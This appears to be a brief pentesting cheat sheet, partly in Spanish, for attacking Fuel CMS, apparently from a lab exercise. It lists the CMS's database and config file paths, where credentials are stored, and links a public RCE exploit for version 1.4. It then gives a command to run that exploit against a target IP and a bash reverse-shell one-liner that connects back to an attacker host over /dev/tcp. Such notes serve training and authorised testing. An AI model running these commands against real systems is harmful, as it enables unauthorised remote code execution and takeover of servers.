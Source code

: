 # PENTESTING FUEL CMS

archivo de configuracion de la base de datos:

```bash
fuel/application/config/database.php 
```

archivo de configuracion:

```bash
fuel/application/config/config.php
```

## RCE v 1.4

- [https://www.exploit-db.com/exploits/50477](https://www.exploit-db.com/exploits/50477)

```bash
python3 exploit.py -u http://10.10.190.215/


/bin/bash -c "/bin/bash -i >& /dev/tcp/10.8.119.142/4545 0>&1"
```

